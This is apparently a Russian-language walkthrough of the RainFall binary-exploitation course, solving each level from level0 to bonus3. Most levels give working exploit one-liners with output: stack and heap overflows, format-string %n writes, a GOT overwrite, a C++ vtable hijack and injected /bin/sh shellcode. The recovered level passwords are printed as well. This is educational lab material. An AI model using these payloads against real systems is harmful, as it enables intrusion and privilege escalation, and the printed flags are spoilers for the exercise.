


# RainFall — walkthrough
#cs/school21

## level0
При входе на уровень мы видим исполняемый файл level0. Посмотрим его через [средства](https://cloud.binary.ninja/) реверс-инженеринга.


Можно заметить, что в данном коде первый аргумент сравнивается с числом `0x1a7`, которое в десятичной системе соответствует числу 423. При совпадении аргумента с заданным числом код переходит в блок, открывающий `/bin/sh`. Учитывая, что этот бинарник принадлежит пользователю level1, пройдя в этот блок, мы попадаем в оболочку от имени этого пользователя и можем получить доступ к файлу `level1/.pass`.

- - - -
## level1
Мы видим две функции: `main`, а также неиспользуемую функцию `run`, которая как раз и запускает оболочку `/bin/sh`. Наша цель – заставить `main` перейти к `run` перед завершением программы.

Рассмотрим её содержимое (с помощью [бинарного анализатора](https://cloud.binary.ninja/)):


Программа использует буфер размера `0x40`, куда записывается строка из `STDIN`. Нам нужно совершить атаку [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) для того, чтобы перезаписать сохраненное на стеке значение `eip`  на адрес функции `run` , равный `0x08048444`. 

Чтобы найти отступ между началом буфера и сохраненным `eip` регистром, воспользуемся инструментом [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/). 

```sh
$ gdb level1
(gdb) r <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

(gdb) p $eip
$1 = (void (*)()) 0x63413563
```

Введя значение `0x63413563` в pattern generator, мы находим, что отступ равен 76. Значит, необходимая нам строка ввода есть  `'a'*76 + '\x44\x84\x04\x08'`, где мы записываем адрес `run` в обратном порядке ввиду того, что архитектура x86 использует [порядок байтов](https://ru.wikipedia.org/wiki/Порядок_байтов) от младшего к старшему. 

Однако это еще не все:

```sh
$ python -c "print 'a'*76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Программа `/bin/sh`  выходит сразу же после прочтения EOF в потоке `stdin`. Чтобы предотвратить закрытие стандартного ввода, будем передавать команды через “прокладку” `cat`:

```sh
$ (python -c "print 'a'*76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
whoami
level2
cd ..; cat level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

- - - -
## level2
На схеме мы видим, что в функции `main` совершается единственное действие — вызов функции `p()`


Рассмотрим эту функцию.


Сразу в глаза бросается отсутствие вызова `/bin/sh`, а, значит, необходимо внедрить shellcode. Сравнение `if ((__return_addr & 0xb0000000) != 0xb0000000)` защищает от записи адреса содержащегося в стеке, следовательно, в стек мы не можем записать shellcode, зато мы можем записать его в кучу. Это нам позволит сделать `strdup()`. C помощью [pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) находим оффсет регистра `eip - 80`. Используя команду `arch` видим, что у нас 32-битная виртуальная машина. Находим соответствующий `shellcode`, который занимает 52 байта:

```py
\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68
```

Добиваем остаток оффсета любыми символами (например, `a`), дописываем адрес возврата `strdup()` — `0x0804a008`, записанный в обратном порядке. В итоге получаем:

```sh
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68" + "a"*28 + "\x08\xa0\x04\x08"') | ./level2
```

Вход в оболочку происходит, но после этого нас сразу выкидывает. Допишем команду `cat`, ожидающую ввода, чтобы получить желаемый результат:

```sh
(python -c 'print "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68" + "a"*28 + "\x08\xa0\x04\x08"'; cat) | ./level2
```

- - - -
## level3
Мы находит две функции:  `main` и `v`, причем `v` вызывается из `main`. Кроме того, существует глобальная переменная `m` по адресу `0x084988c`:

```c
uint32_t m = 0x0;
```

Функция `main` ничего не делает, в то время как `v` сначала выводит через `printf` строку, переданную ей на стандартном вводе. После этого, если переменная `m` равна `0x40`, запускается командная оболочка. 

Нам нужно присвоить `m` необходимое значение, для чего можно воспользоваться атакой [uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string). С помощью типа формата `%n` мы можем изменить содержание памяти в любой области стека. 

Используя дизассемблер, мы обнаруживаем, что строка форматирования (обозначенная на графике ниже через `var_20c`) находится на расстоянии `0x218-0x208=16`  байтов от вершины стека. 


Так как каждый адрес на 32-битовых системах занимает 4 байта, мы “просим” `printf`  использовать в качестве адреса назначения четвертый аргумент. Наконец, на момент вызова формата `%n` размер выведенной строки должен быть равен 64, ведь это именно то значение, которое будет присвоено переменной `m`. Учитывая эти требования, мы получаем следующий эскплойт:

```sh
$ (python -c 'print "\x8c\x98\x04\x08" + "%10x"*6 + "%4$n"'; echo "cd ..; cat level4/.pass") | ./level3
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

- - - -
## level4


Из `main` у нас вызывается функция `n()`,


где вызывается функция `p()`


(с единственным вызовом — `printf()` и извлекается содержимое файла `level5/.pass` при совпадении регистра `eax` с числом `0x1025544` (16930116 в десятичной системе). Следовательно, этот регистр необходимо перезаписать, используя функцию `printf()`. Адрес регистра `eax` — `0x8049810`. Находим позицию буфера:

```sh
./level4 <<< $(python -c 'print "aaaa" + " %x" * 15')
```

Видим, что при данном выводе `aaaa` (`0x61616161`) находится на 12й позиции.

```
aaaa b7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
```

Для записи числа 16930116 используем модификатор `%x`. Итоговая команда:

```sh
./level4 <<< $(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"')
```

- - - -
## level5
Программа состоит из трех функций:
* `main`
* `n`, которая вызывается из `main`
* `o`, которая вообще не вызывается

Нам нужно заставить программу исполнить функцию `o` , ведь именно она запускает программную оболочку. Мы замечаем, что имеющийся вызов к `printf` с непроверенным пользовательским кодом делает программу уязвимой к атакам [uncontrolled format string](https://en.wikipedia.org/wiki/Uncontrolled_format_string). 

Нам остается перезаписать сохраненный на стеке `eip`  регистр так, чтобы по завершении функции  `n`  управления не возвращалось  к `main`, а переходило к функции  `o`.

Функция `o` находится по адресу `0x080484a4`, что соответствует числу `134513828` в десятичной системе. Как и в level3, буфер, содержащий форматную строку, находятся на расстоянии в `0x218-0x208=0x10` байтов от вершины стека. 

Итого,
```sh
$ (python -c 'print "\x38\x98\x04\x08" + "%134513824x" + "%4$n"'; echo 'echo start; cd ..; cat level6/.pass') | ./level5 > /tmp/level5_out ; cat /tmp/level5_out | grep -A10 -i start
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

- - - -
## level6


Мы видим, что функция `main()` вызывает функцию `m()`, которая выполняет единственное действие — пишет `Nope`.


Кроме того, можно заметить невызываемую функцию `n()`, в которой открывается файл с паролем от level7


Следовательно, наша задача - найти способ вызвать `n()`.

Можно записать в регистр `eip` адрес `n()`. Для этого можно использовать переполнение буфера в незащищенной функции `strcpy`. Сначала найдем оффсет с помощью pattern generator. (72 байта). Затем найдем адрес `n()` — `0x8048454`.

Итоговая команда:

```sh
./level6 $(python -c 'print "a"*72 + "\x54\x84\x04\x08"')
```

- - - -
## level7
Имеются две функции: `main` и неисполняемая функция `m`. Также существует глобальный буфер `c` на 80 байтов.  

Функция `main` записывает разыскиваемый нами флаг из файла `../level8/.pass` в `c`. Если бы у нас получилось добиться вызова функции `m`, уровень был бы пройден, ведь именно она выводит содержимое `c` на экран.

Программа выделяет четыре сегмента памяти на куче:
```sh
$ ltrace ./level7 aaa bbb
malloc(8)                                       = 0x0804a008
malloc(8)                                       = 0x0804a018
malloc(8)                                       = 0x0804a028
malloc(8)                                       = 0x0804a038
```

Чтобы понять, что происходит, приведем код функции `main`, который мы получили, проанализировав её дизассемблер:

```c
int		main(int argc, char **argv){
	int		*a;
	int		*b;

	a = malloc(8); // 0x0804a008
	a[0] = 1;
	a[1] = (int)malloc(8); // 0x0804a018

	b = malloc(8); // 0x0804a028
	b[0] = 2;
	b[1] = (int)malloc(8); // 0x0804a038

	strcpy((char *)a[1], argv[1]);
	strcpy((char *)b[1], argv[2]);
	
	fgets(c, 68, fopen("/home/user/level8/.pass", "r"));
	puts("~~");

	return (0);
}
```

Мы можем переполнить 8-байтовый массив `a[1]`  и изменить адрес, сохраненный в ячейке `b[1]`. Таким образом при повторном вызове функции `strcpy` значение `argv[2]` запишется не по адресу `0x0804a038`, а в выбранное нами место. Для этого длина первого аргумента `argv[1]` должна превосходить `0x0804a028 - 0x0804a018 + 4 = 20` байтов.

### Способ 1

По аналогии с предыдущими уровнями мы можем переписать сохраненный регистр `eip` так, чтобы по окончании функции `main` контроль возвращался не к  `__libc_start_main`, а передавался к `m`.  Для нахождения адреса сохраненного `eip` регистра можно воспользоваться [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), либо посмотреть через `gdb`. Ради разнообразия мы пойдем вторым путем.

```sh
$ gdb ./level7
(gdb) disas main
Dump of assembler code for function main:
   0x08048521 <+0>:	push   %ebp
   0x08048522 <+1>:	mov    %esp,%ebp
   0x08048524 <+3>:	and    $0xfffffff0,%esp
	...
(gdb) b *0x08048521
(gdb) x/x $esp
0xbffff73c:	0xb7e454d3
(gdb) x/i
0xb7e454d3 <__libc_start_main+243>:	mov    %eax,(%esp)
```

Мы видим, что сохранённый  `eip` регистр находится в позиции `0xbffff73c`. Изменим его значение на адрес функции `m`, равный  `0x080584f4`. 

```sh
$ ./level7 $(python -c 'print "a"*20 + "\x3c\xf7\xff\xbf"') $(python -c 'print "\xf4\x84\x04\x08"')
~~
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1642354311
Segmentation fault (core dumped)
```

### Способ 2

Внутри `main` содержится вызов к библиотечной функции `puts`. Вызовы к функциям из динамических библиотек сначала проходят через сегмент .PLT, который отсылает их к .GOT.PLT для дальнейшей обработки. Мы можем переписать содержимое .GOT.PLT для перенаправления потока управления к функции `m`.

```sh
$ gdb ./level7
(gdb) disas main
Dump of assembler code for function main:
...
0x080485f7 <+214>:	call   0x8048400 <puts@plt>
...
(gdb) x/i 0x8048400
0x8048400 <puts@plt>:	jmp    *0x8049928
```

Итак, необходимый нам адрес равен `*0x8049928`.

```sh
$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1642354320
```

### Сравнение способов

Несмотря на то что способ 1 концептуально проще, способ 2 лучше подходит в реальных ситуаций, так как он не приводит к Segmentation Fault. Все ошибки сегментации фиксируются в системных логах, а значит, атаку будет возможно отследить. 

- - - -
## level8
Загрузив бинарный файл на https://cloud.binary.ninja, можно увидеть, что в данном `main()` находится упрощенный вариант сервиса авторизации - бесконечный цикл, ожидающий ввода определенных команд:

* `auth` : вызывает `malloc()` и `strcpy()` и копирует данные после `auth` в глобальную переменную `auth`.
* `service` : вызывает `strdup()` и копирует данные, после `service`, в глобальную переменную `service`.
* `reset`: вызывает `free()` и освобождает глобальную переменную `auth`.
* `login`: вызывает `system()`, если `auth[32]` отличается от 0, или `fwrite()` в противном случае. Затем отображает адреса глобальных переменных `auth` и `service`.

Задавая переменные `auth` и `service`, нам надо переполнить их таким образом, чтобы на позиции `*(auth + 32)` было ненулевое значение. Видя выводимые адреса, можно понять, что отступ между `auth` и `service` равен 16 байт. Следовательно, в `auth` надо ввести строку, в которой не меньше 4 символов, а в `service` - 16 символов.

Итог:
```
$ ./level8
auth aaaa
service bbbbbbbbbbbbbbbb
login
```

- - - -
## level9
Данная программа написана на `cpp` и использует ООP.  Интересно заметить, что при вызове методов класса, адрес памяти, занимаемой объектом, передается наверху стека (подобно параметру `self` в Питоне). Сами же объекты содержат лишь атрибуты, расположенные по порядку, как внутри `struct`. 

Имея это в виду, исходный код мог выглядеть так:
```cpp
#include <string.h>
#include <unistd.h>

class N {
public:
	typedef  int (N::*MemFun)(const N&) const;

	MemFun	func; 				// from 0-4 bytes
	char	annotation[100];	// from 4-104 bytes
	int 	var;				// from 104-108 bytes

public:
	N(int var) : var(var) {
		func = &N::operator+;
	}

	void *setAnnotation(const char* annotation) {
		size_t len = strlen(annotation);
		return memcpy(this->annotation, annotation, len);
	}

	virtual int operator+(const N& other) const {
		return var + other.var;
	}

	virtual int operator-(const N& other) const {
		return var - other.var;
	}
};

int main(int argc, char** argv, char** envp) {
	if (argc > 1) {
		auto n1 = new N(5);
		auto n2 = new N(6);

    	n1->setAnnotation(argv[1]);
    	return (n2->*(n2->func))(*n1);
	}
	_exit(1);
}
```

Наш план заключается в том, чтобы записать shellcode в `n1->annotation`. Мы также переполним буфер таким образом, чтобы добраться до области памяти, принадлежащей `*n2`, и записать указатель на shellcode в переменную `n2->func`. В результате, вместо  `n2 + n1`, в конце программы будем выполнен shellcode. 

Найдем адреса выделенных объектов `n1` и `n2` с помощью `ltrace`:

```sh
$ ltrace ./level9 ""
...
_Znwj(108, 0xbffff7f4, 0xbffff800, 0xb7d79e55, 0xb7fed280)                  = 0x804a008
_Znwj(108, 5, 0xbffff800, 0xb7d79e55, 0xb7fed280)                           = 0x804a078
...
```

Атрибут `func` занимает 4 байта, а значит, `n1->annotation` начинается с `0x804a008 + 4 = 0x804a00c`. Следовательно, у нас имеется `0x804a078 - 0x804a00c = 108` байтов между началом `n1->annotation` и `n2->func`.

Нужно отметить, что значение `&N::operator+` , записанное в `n2->func`, не является обычным указателем на функцию. Метод `N::operator+` — виртуальный, поэтому  `n2->func` указывает на [virtual function table](https://en.wikipedia.org/wiki/Virtual_method_table), в которой уже содержатся адреса самих методов класса. Это нам подтверждает и дизассемблер, который осуществляет двойное разыменование в строчках `0x08048680-0x08048682`:

```sh
$ gdb ./level9
(gdb) disas main
...
0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
...
```

Поняв это, мы можем пройти уровень:
```sh
$ echo "cd ..; cat bonus0/.pass" | ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\xeb\x25\x5e\x89\xf7\x31\xc0\x50\x89\xe2\x50\x83\xc4\x03\x8d\x76\x04\x33\x06\x50\x31\xc0\x33\x07\x50\x89\xe3\x31\xc0\x50\x8d\x3b\x57\x89\xe1\xb0\x0b\xcd\x80\xe8\xd6\xff\xff\xff\x2f\x2f\x62\x69\x6e\x2f\x73\x68" + "a"*52 + "\x0c\xa0\x04\x08"')
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

Для лучшего понимания разберем эксплойт-строку по частям:
* `\x10\xa0\x04\x08` — адрес начала shellcode-а, равный `0x804a00c + 4 = 0x804a010`
* 52 байта shellcode-а, взятого [отсюда](http://shell-storm.org/shellcode/files/shellcode-811.php)
* `\x0c\xa0\x04\x08` — адрес начала буфера

- - - -
## bonus0
В данном уровне мы видим три функции: `main()`, `p()`, `pp()`




В функции `pp()` можно увидеть буфер размера 4096, в котором первые 20 байт содержат 20 первых байт аргумента `arg1`, следующие 20 байт содержат 20 первых байт аргумента `arg1`. Строка же, которая получается на выходе из этой функции выглядит следующим образом:

> `arg1`+`arg2`+пробел+`arg2` при условии, что `arg1` содержит 20 байт  

Итого 61 байт.

Размер буфера, в который записывается итоговая строка - 42 байта. Следовательно, для записи в `eip` у нас остается 19 байт. Записывая наши аргументы, сначала создадим несколько NOP-инструкций, по размеру больше 61 байта, но меньше 4096, чтобы избежать возможных сдвигов памяти. Затем находим оффсет `eip` — 9. Находим адрес буфера — `0x080484d0`. И получаем итоговую команду:

```sh
(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"'; python -c 'print "a" * 9 + "\xd0\xe6\xff\xbf" + "b" * 7'; echo "cd ..; cat bonus1/.pass") | ./bonus0
```

- - - -
## bonus1
Чтобы перейти к части программы, запускающей программную оболочку, необходимо передать ей такой аргумент, который бы прошел две проверки:

```c
#include <string.h>
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char **argv) {
	int		val; // хранится по адресу $esp+0x3c
	char	buffer[40]; // начинается по адресу $esp+0x14

	val = atoi(argv[1]);
	// ПРОВЕРКА 1
	if (val > 9) {
		return 1;
	}

	memcpy(buffer, argv[2], val << 2);
	// ПРОВЕРКА 2
	if (val == 0x574f4c46) {
		execl("/bin/sh", "sh", NULL);
	}
	return 0;
}
```

Чтобы пройти первую проверку,  значение `val `  не должно превышать 9, в то время как для второй проверки `val` должно равняться `0x574f4c46`. Значит, нам нужно воспользоваться вызовом `memcpy`, расположенным между проверками, для того чтобы переполнить буфер и заменить значение `val ` на `0x574f4c46`.

Между началом буфера и переменной `val`  лежит  `0x3c-0x14=40` байтов. Чтобы `memcpy` записал достаточное количество байтов, `val` должен одновременно удовлетворять двум условиям:

* `val <= 9`
* `val << 2 = 44`

Это осуществимо, ведь, согласно [дополнительному коду](https://ru.wikipedia.org/wiki/Дополнительный_код), можно просто включить наибольший бит в 32-битном представлении числа `44 >> 2 = 11`. Получается `10000000000000000000000000001011`, что равно `-2147483637`.

Наша атака, таким образом, имеет следующий вид:

```sh
$ echo "cd ..; cat bonus2/.pass" | ./bonus1 -2147483637 $(python -c 'print "a"*40 + "\x46\x4c\x4f\x57"')
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

- - - -
## bonus2
B этом уровне мы можем заметить наличие двух функций `main()` и `greetuser()`. кроме того, в глаза бросается использование переменной окружения. Вызова оболочки в коде нет, поэтому необходимо прописывать shellcode. 



### Первый способ:

Записать shellcode в буфер функции `main()` и записать адрес буфера в регистр `eip`. Достаточное переполнение буфера невозможно при приветствии по-английски (5 символов). Поэтому надо сменить значение переменной окружения `LANG` на `fi` или `nl`. Рассмотрим вариант с финским приветствием - тут оффсет нужного регистра - 18. Адрес буфера - `0xbffff6d0`.

Итоговая команда:

```sh
$ LANG=fi ./bonus2 $(python -c 'print "a"*19 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print "a"*18 + "\xd0\xf6\xff\xbf"')
```

### Второй способ:

Записать shellcode не в буфер, а в переменную окружения, так как это делает взаимодействие с памятью более стабильным. Для этого понадобится так же найти адрес переменной окружения. 

Итог:

```sh
$ export EXPLOIT=$(python -c 'print "\x90" * 1024 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

$ ./bonus2 $(python -c 'print "a" * 40') $(python -c 'print "a"*18 + "\x10\xf5\xff\xbf"')
```

- - - -
## bonus3
Программа сравнивает значение ключа из файла `end/.pass`  с аргументом `argv[1]`, проверяя лишь число байтов, равное результату `atoi(argv[1])`. Если сравнение удалось, то запускается программная оболочка.

Тот факт, что программа считывает содержимое `end/.pass`, является “red-herring”. Узнать его напрямую мы не сможем, поэтому лучше пытаться добраться до запуска программной оболочки. Пройти проверку можно, передав `""` в качестве аргумента. Так как  `atoi("")` возвращает 0, никакие байты сравнены не будут, и `strcmp` не найдёт различий между строками. 

```sh
$ echo "cd ..; cat end/.pass" | ./bonus3 ""
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```
